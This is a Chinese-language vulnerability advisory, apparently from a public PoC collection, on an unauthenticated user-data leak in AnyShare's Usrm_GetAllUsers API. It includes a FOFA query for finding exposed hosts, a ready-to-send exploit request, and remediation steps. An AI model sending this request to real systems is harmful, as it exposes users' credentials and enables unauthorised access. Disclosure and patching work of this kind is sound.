

# 爱数 AnyShare智能内容管理平台 Usrm_GetAllUsers 信息泄露

# 漏洞描述

爱数 AnyShare智能内容管理平台 Usrm_GetAllUsers 接口存在信息泄露漏洞，未经身份认证的攻击者可获取用户名密码等敏感信息。可登录后台，使系统处于极不安全状态。

# 影响版本

AnyShare智能内容管理平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="AISHU-AnyShare"

POC/EXP：

POST /api/ShareMgnt/Usrm_GetAllUsers HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

[1,100]

# 修复方案

官方已修复该漏洞，请用户联系厂商修复漏洞：https://www.aishu.cn/cn/anyshare-family

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
